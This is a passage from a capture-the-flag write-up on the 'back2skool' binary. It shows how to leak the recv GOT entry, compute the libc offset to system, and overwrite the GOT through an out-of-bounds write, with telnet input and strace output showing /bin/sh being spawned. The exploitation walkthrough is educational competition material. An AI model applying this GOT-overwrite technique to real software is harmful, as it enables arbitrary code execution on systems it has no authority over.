 Hmm, nothing useful, nothing to execute, nothing to modify the mappings. But hey, if you have access to those functions from libc and because the loader maps the libc to our address space then it means that we have access to other functions from libc, the problem is that we don't know where they are. A wild **idea appears**, if we knew where one of the function from libc is, we can compute the rest of them by adding some offsets. There are two problems with this idea: **how do we find the offset of a used function** and **how do we compute the offset of an unused function**.

* finding the address of a used function is **simple**, we can use the GOT and read the value of the pointer which has been already filled in by the loader. Because of the lazy linking, we only have to be careful to choose a function which has been previously called. We will choose `recv` for this purpose.

		$ objdump -dS ./back2skool-3fbcd46db37c50ad52675294f566790c777b9d1f  | grep -A2 recv@plt
		08048980 <recv@plt>:
		 8048980:	ff 25 c0 bf 04 08    	jmp    *0x804bfc0

**0x804bfc0** is the GOT entry for `recv` function.


* finding the relative offset of the function that we want to jump to (e.g. `system`) is **difficult**. This offset depends on the version of libc that is used on the target system. To make things simple, we will focus first on exploiting locally - meaning that we have access to our libc file. To compute the offset we only have to find the function entries in libc.

		$ readelf -s /lib/tls/i686/cmov/libc.so.6 | grep ' recv@'
		  1124: 000cebf0   118 FUNC    WEAK   DEFAULT   12 recv@@GLIBC_2.0
		$ readelf -s /lib/tls/i686/cmov/libc.so.6 | grep ' system@'
		  1398: 00039100   125 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
		$ echo $((0x00039100-0x000cebf0))
		-613104

The offset is -613104, **note** that it depends on the version of libc, hence the exploit isn't too reliable. Let's focus though on exploiting locally and postpone the computation of the remote offset. We will write at the same address as in PoC1 but we will write the value of `system` function i.e. address\_of\_recv\_function+OFFSET.

	$ telnet localhost 31337
	read
	Input position to read from:
	-32
	Value at position -32: -1217696784
	write
	Input position to write to:
	-2147483634
	Input numeric value to write:
	-1218309888
	Value at position -2147483634: -1218309888
	math
	Result of math: -1

Reading from **-32** it's equivalent of reading -32\*4 bytes before our buffer. 0x804c040-32\*4 is 0x804bfc0, this is the `recv` GOT entry. **-1218309888** is -1217696784-613104.

Hey, it didn't crashed, that's a plus! Meanwhile, back at the castle.

	$ strace -f ./back2skool-3fbcd46db37c50ad52675294f566790c777b9d1f
	[...]
	[pid  4901] send(4, "Value at position -2147483634: -"..., 43, 0) = 43
	[pid  4901] read(4, "m", 1)             = 1
	[pid  4901] read(4, "a", 1)             = 1
	[pid  4901] read(4, "t", 1)             = 1
	[pid  4901] read(4, "h", 1)             = 1
	[pid  4901] read(4, "\r", 1)            = 1
	[pid  4901] read(4, "\n", 1)            = 1
	[...]
	[pid  4902] execve("/bin/sh", ["sh", "-c", ""], [/* 31 vars */]) = 0
	[pid  4902] brk(0)                      = 0x9a04000
	[...]


[original binary]: res/back2skool-3fbcd46db37c50ad52675294f566790c777b9d1f "Vulnerable binary"
[Ghost in the Shellcode]: http://ghostintheshellcode.com/ "Ghost in the Shellcode CTF"